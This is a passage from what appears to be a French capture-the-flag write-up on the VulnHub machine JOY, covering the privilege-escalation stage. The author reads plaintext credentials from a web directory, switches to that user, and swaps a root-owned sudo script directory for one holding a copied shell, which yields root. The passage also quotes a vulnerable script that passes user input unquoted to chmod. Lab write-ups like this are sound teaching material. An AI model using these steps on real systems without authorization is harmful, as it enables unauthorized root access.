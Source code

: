 ## PrivEsc

Sous la racine web, dans le dossier `ossec` on trouve des identifiants :

```console
www-data@JOY:/var/www/tryingharderisjoy/ossec$ cat patricksecretsofjoy 
credentials for JOY:
patrick:apollo098765
root:howtheheckdoiknowwhattherootpasswordis

how would these hack3rs ever find such a page?
```

On peut ainsi se connecter en tant que `patrick` via `su`. Le mot de passe root est invalide.

On a vu plus tôt que l'utilisateur peut exécuter `/home/patrick/script/test` via sudo mais on ne dispose d'aucun droit sur le dossier `script` qui appartient à root.

Sauf que, come vu sur le [CTF ColddWorld: Immersion]({% link _posts/2023-02-17-Solution-du-CTF-ColddWorld-Immersion-de-VulnHub.md %}), si on contrôle le dossier parent alors on a le droit de renommage et donc de déplacement dans le même dossier.
Je vais donc déplacer le dossier `script` et en faire un autre à ma convenance :

```console
patrick@JOY:~$ ls -ld script/
d--------- 2 root root 4096 Jan  9  2019 script/
patrick@JOY:~$ chmod 755 script
chmod: changing permissions of 'script': Operation not permitted
patrick@JOY:~$ mv script yolo
patrick@JOY:~$ mkdir script
patrick@JOY:~$ cp /bin/dash script/test
patrick@JOY:~$ sudo /home/patrick/script/test
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
author-secret.txt  document-generator.sh  dovecot.crt  dovecot.csr  dovecot.key  permissions.sh  proof.txt  rootCA.key  rootCA.pem  rootCA.srl
# cat proof.txt
Never grant sudo permissions on scripts that perform system functions!
```

C'est un peu la méthode bourrin. La solution attendue consiste à faire exécuter `/home/patrick/script/test` dont le fonctionnement est assez verbeux :
```bash
#!/bin/sh

echo "I am practising how to do simple bash scripting!"
sleep 3

echo "What file would you like to change permissions within this directory?"

read file
sleep 3

echo "What permissions would you like to set the file to?"

read permissions
sleep 3

echo "Currently changing file permissions, please wait."
sleep 3

chmod $permissions /home/patrick/script/$file
echo "Tidying up..."
sleep 3

```